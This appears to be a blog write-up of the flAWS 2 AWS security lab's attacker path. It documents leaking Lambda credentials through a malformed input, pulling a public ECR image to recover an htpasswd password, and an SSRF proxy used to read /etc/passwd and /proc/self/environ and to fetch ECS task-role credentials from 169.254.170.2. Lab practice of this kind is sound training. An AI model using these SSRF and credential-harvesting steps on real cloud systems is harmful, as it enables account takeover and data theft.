 ```yaml
---
title: flAWS 2 - Attacker
date: 2023-05-12 23:42:00 -0600
categories: [Lab Practice Notes, AWS Labs]
tags: [aws,lab,flaws2,security]
image:
  path: /assets/img/covers/flaws-cover.jpeg
  alt: flAWS Artwork
---
```


## Level 1

> The problem statement is to enter a correct pin code on a website that is 100 digits long.
{: .prompt-info }

The first thing to do is to look at the HTML source, where the form that takes the input submits to the following API Gateway URL &rarr;

```
https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1
```

The source also has a JS construct with the following &rarr;

```html
<script type="text/javascript">
    function validateForm() {
        var code = document.forms["myForm"]["code"].value;
        if (!(!isNaN(parseFloat(code)) && isFinite(code))) {
            alert("Code must be a number");
            return false;
        }
    }
</script>
```

Since the client-side validation code expects it to be a finite number, we can try bypassing that control and sending a string instead. We can do this using cURL. Doing so results in a malformed input error and spits out environment variables, likely due to developer errors, for the Lambda function handling the request. The returned environment JSON object can be pretty printed as follows &rarr;

```bash
curl "https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=qwer" | grep -v "Error, malformed input" | jq
```

We can explore the AWS environment using these session credentials. We can verify credentials as follows &rarr;

```bash
AWS_ACCESS_KEY_ID="ASIAZ...." AWS_SECRET_ACCESS_KEY="DEZBc...." AWS_SESSION_TOKEN="IQoJb3JpZ2luX2V...." aws sts get-caller-identity
```

which returns &rarr;

```json
{
    "UserId": "AROAIBATWWYQXZTTALNCE:level1",
    "Account": "653711331788",
    "Arn": "arn:aws:sts::653711331788:assumed-role/level1/level1"
}
```

We can export the variables to the shell to make it easier.

Like flAWS-1, likely, the website is statically hosted via S3, so that should be the first exploration point. We can perform the following sequence of commands to explore S3 and find the next level &rarr;

```bash
aws s3 ls # denied
aws s3 ls s3://level1.flaws2.cloud # allowed and shows a secret file
# download the secret file
aws s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html ./
```

The secret file contains the URL for the next level &rarr;

```
http://level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud
```

---

## Level 2

> Problem statement says that the level challenge is running as a container at URL http://container.target.flaws2.cloud/, and the associated ECR registry/repository name is "level2".
{: .prompt-info }

The website in the container requests a login before returning any markup source. So, the only other available information is the ECR registry/repository name. With some thought, it has to be the repository name. It is also likely that the registry is publicly accessible, in which case we should be able to look at the image to figure out what web service is running and possibly look at credentials. We can also assume that the account is the same as what we discovered in level 1. So, we can also use the same CLI credentials.

First, check the access to the repository by listing all images as follows &rarr;

```bash
aws ecr list-images --repository-name level2 --registry-id 653711331788
```

which returns &rarr;

```json
{
    "imageIds": [
        {
            "imageDigest": "sha256:513e7d8a5fb9135a61159fbfbc385a4beb5ccbd84e5755d76ce923e040f9607e",
            "imageTag": "latest"
        }
    ]
}
```

There's only one image, likely the one that's running the website, so we can list all layers of the image and pull them one by one to construct the container file system locally as follows &rarr;

```bash
aws ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids "imageDigest=sha256:513e7d8a5fb9135a61159fbfbc385a4beb5ccbd84e5755d76ce923e040f9607e"
```

This gives a list of digests referring and relating to gzipped tarballs of image layers for the above image. We can retrieve each layer by using the `get-download-url-for-layer` sub-command. For multiple layers, let's automate that with a quick for-loop &rarr;

```bash
mkdir image; cd image
for i in $(awsn ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids "imageDigest=sha256:513e7d8a5fb9135a61159fbfbc385a4beb5ccbd84e5755d76ce923e040f9607e" | jq -r '.images[0].imageManifest | fromjson | .layers[].digest')
do
    echo $i
    wget $(awsn ecr get-download-url-for-layer --registry-id 653711331788 --repository-name level2 --layer-digest "$i" | jq -r '.downloadUrl') -O test
    tar -xzf test
done
cd ..
```

This creates the complete filesystem for the image. Since it's a website, we can search for common web server applications like Apache or Nginx and password or credential files. I used `fdfind` for that, and a hit and try on the following led me to the `.htpasswd` file for Nginx &rarr;

```bash
fdfind apache . -H
fdfind nginx . -H
la ./etc/nginx
bat ./etc/nginx/.htpasswd
```

The last command gave the following &rarr;

```
flaws2:$apr1$jJh7fsij$wJV.a0WR6hAZ51/r11myl/
```

This is likely crackable but maybe not too. It's better to turn to another method to obtain instructions per layer for the image. One way to do that is to use Docker to log in with the AWS credentials and use `docker inspect` on the pulled image. To log in to Docker with the AWS credentials, do the following &rarr;

```bash
aws ecr get-login-password # spits off a token; export it as TOKEN
docker login -u AWS -p $TOKEN 653711331788.dkr.ecr.us-east-1.amazonaws.com
```

Then, pull the image and look at its interpreted command history as follows &rarr;

```bash
docker pull 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest
docker history 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2 --no-trunc | grep htpasswd
```

One of the commands there sets the `.htpasswd` as follows (which also gives us the password) &rarr;

```bash
htpasswd -b -c /etc/nginx/.htpasswd flaws2 secret_password
```

Using these credentials in the containerized website gives the next level's URL as &rarr;

```
http://level3-oc6ou6dnkw8sszwvdrraxc5t5udrsw3s.flaws2.cloud/
```

---

## Level 3

> The problem statement tells us that the container also has a simple proxy service running within and gives two examples to visit the fLAWS-1 URL and neverssl.com.
{: .prompt-info }

The first impulse is to try the IMDSv1 endpoint in case the container was running within an EC2 instance. However, that didn't produce any results. Looking at the image filesystem from the previous level, we can try to find the proxy code using `fdfind proxy . -H`, which shows a file available at `./var/www/html/proxy.py`. The proxy script takes the path and removes the leading `/`, and queries everything else as a URL.

Next, it's likely the container is running as an ECS task. AWS [states](https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-iam-roles.html) that ECS tasks can have credentials that are retrievable from inside the container with &rarr;

```bash
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

Of course, this won't directly work since the environment variable isn't retrievable inside the Python code using the `$` denotation. So, we can try to retrieve that variable by other means. Trying another scheme like `file://` seems to work for the following payload &rarr;

```bash
curl http://container.target.flaws2.cloud/proxy/file:///etc/passwd
```

Process environment variables can be listed via `/proc/<PID>/environ`, and we can try passing in `self` for the PID. The command would then look like &rarr;

```bash
curl http://container.target.flaws2.cloud/proxy/file:///proc/self/environ --output -
```

This gives the result as &rarr;

```
HOSTNAME=ip-172-31-75-168.ec2.internalHOME=/rootAWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/92a61680-599c-4b2d-ab9c-e8aa8cbe207fAWS_EXECUTION_ENV=AWS_ECS_FARGATEECS_AGENT_URI=http://169.254.170.2/api/9d3f98af337e441985892fa63d737081-3779599274AWS_DEFAULT_REGION=us-east-1ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/9d3f98af337e441985892fa63d737081-3779599274ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/9d3f98af337e441985892fa63d737081-3779599274PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binAWS_REGION=us-east-1PWD=/
```

With that information in hand, we can retrieve the credentials as follows &rarr;

```bash
curl http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/92a61680-599c-4b2d-ab9c-e8aa8cbe207f | jq
```

With those credentials, we get access to the following role &rarr;

```json
{
    "UserId": "AROAJQMBDNUMIKLZKMF64:9d3f98af337e441985892fa63d737081",
    "Account": "653711331788",
    "Arn": "arn:aws:sts::653711331788:assumed-role/level3/9d3f98af337e441985892fa63d737081"
}
```

From here, enumeration seems like a shot in the dark 🤔. Knowing the track record of past solutions, S3 should be the first stop due to static hosting. We can now list all buckets, and there is a "The End" bucket, i.e., the lab is complete.

Final page &rarr;

```
the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud
```

---
